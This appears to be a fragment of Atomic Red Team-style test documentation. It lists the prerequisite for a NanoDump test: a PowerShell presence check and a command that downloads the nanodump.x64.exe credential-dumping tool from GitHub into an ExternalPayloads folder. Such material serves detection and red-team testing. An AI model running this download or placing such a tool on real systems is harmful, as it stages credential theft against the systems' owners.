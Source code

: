 

#### Dependencies:  Run with `powershell`!
##### Description: NanoDump executable must exist on disk at specified location (PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe)
##### Check Prereq Commands:
```powershell
if (Test-Path PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/fortra/nanodump/blob/2c0b3d5d59c56714312131de9665defb98551c27/dist/nanodump.x64.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe"
```




<br/>
